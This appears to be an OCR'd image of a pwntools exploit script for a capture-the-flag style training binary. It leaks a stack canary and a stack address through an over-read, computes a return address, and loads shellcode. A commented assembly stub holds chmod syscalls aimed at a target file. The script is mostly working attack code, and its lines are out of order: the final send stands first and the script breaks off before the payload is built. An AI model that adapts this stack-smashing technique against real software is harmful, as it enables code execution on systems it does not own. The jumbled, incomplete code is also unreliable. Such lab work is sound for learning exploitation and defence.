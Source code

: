 ```python
p.send(real_payload)
p.interactive()
exit()


"""

    mov rax, 90
    lea rdi, [rel filename]
    mov rsi, mode
    syscall


    push 0x66
    mov rdi, rsp
    push 4
    pop rsi
    push 0x5A
    pop rax
    syscall
    times 10 nop

"""


from pwn import *
elf = ELF("/challenge/toddlerone_level6.0")
p = process("/challenge/toddlerone_level6.0")
p.recvuntil("Payload size: ")

init_payload_size = 0x68  + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")


init_payload_size = 0x80 
p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
print(response)
stack_value = response[init_payload_size:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")


return_address = p64(stack_value - 0xE0 - 0xE0 - 0x80)

real_payload_size = 0x80 + 8 + 8

p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level6/shellcode.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
```
